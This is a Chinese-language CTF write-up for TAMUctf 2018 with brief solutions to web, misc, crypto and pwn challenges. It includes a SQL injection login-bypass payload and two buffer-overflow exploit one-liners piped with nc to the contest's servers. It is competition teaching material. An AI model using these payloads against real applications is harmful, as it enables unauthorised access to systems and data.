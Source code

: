 ```yaml
---
title: TAMUctf 18
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2018-02-27 21:38:45
categories:
	- Writeups
	- TAMUctf18
thumbnailImage: cover.png
keywords:
    - TAMUctf18
    - Writeups
tags:
    - Writeups
    - TAMUctf18
---
```

10 天的 CTF 比賽
<!-- more -->
<!-- toc -->

# Intro
## [1 pts] Howdy!
簽到題，不解釋。

# Web
## [20 pts] Reading
不太懂這題的意義，總之原始碼 `Ctrl+F` 搜尋 `gigem{` 找唯一個有右大括號結尾的就是 flag。

## [40 pts] Bender
很簡單，看 `/robots.txt` 就可以了。

## [50 pts] Bubbles
簡單的 SQL Injection
```
Username: ' or 1=1 --
Password: ' or 1=1 --
```

# Misc
## [20 pts] breadsticks2
用 `file` 指令發現檔案格式為：`Microsoft OOXML`，直接把副檔名改成 `.docx` 就可以打開看到 flag 了。

## [25 pts] you can run, you can hide
連線進去環境以後 `ls -al` 看當前目錄底下看當前目錄底下的所有路徑，flag 就藏在 `~/.secret/.dont_delete_me.txt`。

# Crypto
## [100 pts] XORbytes
1. 利用 `$ xortool -m 100 -c 00 hexxy` 找出 xor 的 key：`QB1g3l4B5uzPjjD4`
2. 把 `heexy` 用相同的 key 再做一次 XOR 運算還原 ELF 檔案
3. 執行即可拿到 flag

# pwn
## [25 pts] pwn1
內容待補
```
Exploit:
$ python -c "print 'A'*(0x23-0x0C) + '\x11\xBA\x07\xF0'" | nc pwn.ctf.tamu.edu 4321
```

## [50 pts] pwn2
內容待補
```
Exploit:
$ python -c "print 'A'*(0xEF+4) + '\x4B\x85\x04\x08'" | nc pwn.ctf.tamu.edu 4322
```